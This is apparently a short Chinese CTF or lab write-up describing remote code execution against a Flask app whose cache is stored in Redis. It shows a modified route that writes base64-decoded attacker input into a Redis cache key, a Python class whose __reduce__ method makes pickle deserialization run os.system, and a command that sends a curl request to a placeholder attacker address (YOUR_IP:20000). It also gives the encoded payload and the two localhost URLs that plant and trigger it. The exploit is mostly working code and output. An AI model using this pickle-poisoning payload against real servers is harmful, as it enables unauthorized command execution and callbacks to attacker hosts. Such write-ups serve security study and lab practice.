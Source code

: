 把这里的源码改一下，加个 base64

```
@app.route('/', methods=['GET'])
def notes_post():
    if request.method == 'GET':
        x = request.args.get('x') or 'x'
        y = request.args.get('y') or 'y'
        try:
            y = base64.b64decode(y)
        except Exception as e:
            y = 'must be b64'
        redis.setex(name=x, value=y, time=100)
    return 'hello world'
```

然后写一个 pickle 反序列化的命令执行

```
import os
import pickle
import base64

ip = 'YOUR_IP'
port = 20000
command = f'curl -d "test" `{`ip`}`:`{`port`}`'

class PickleRce(object):
    def __reduce__(self):
        return (os.system,(command,))

f = open('payload', 'wb')
f.write(b'!'+pickle.dumps(PickleRce()))
f.close()

payload = open('payload', 'rb').read()
payload = base64.b64encode(payload)
print(payload)
# IYADY250CnN5c3RlbQpxAFgcAAAAY3VybCAtZCAidGVzdCIgWU9VUl9JUDoyMDAwMHEBhXECUnEDLg==
```

访问 [http://127.0.0.1:5000/?x=flask_cache_view//1&amp;y=IYADY250CnN5c3RlbQpxAFgcAAAAY3VybCAtZCAidGVzdCIgWU9VUl9JUDoyMDAwMHEBhXECUnEDLg==](http://127.0.0.1:5000/?x=flask_cache_view//1&amp;y=IYADY250CnN5c3RlbQpxAFgcAAAAY3VybCAtZCAidGVzdCIgWU9VUl9JUDoyMDAwMHEBhXECUnEDLg==)

然后访问 [http://127.0.0.1:5000/1](http://127.0.0.1:5000/1)

[![](https://p1.ssl.qhimg.com/t0129c8ec6bef0a7f1b.jpg)](https://p1.ssl.qhimg.com/t0129c8ec6bef0a7f1b.jpg)
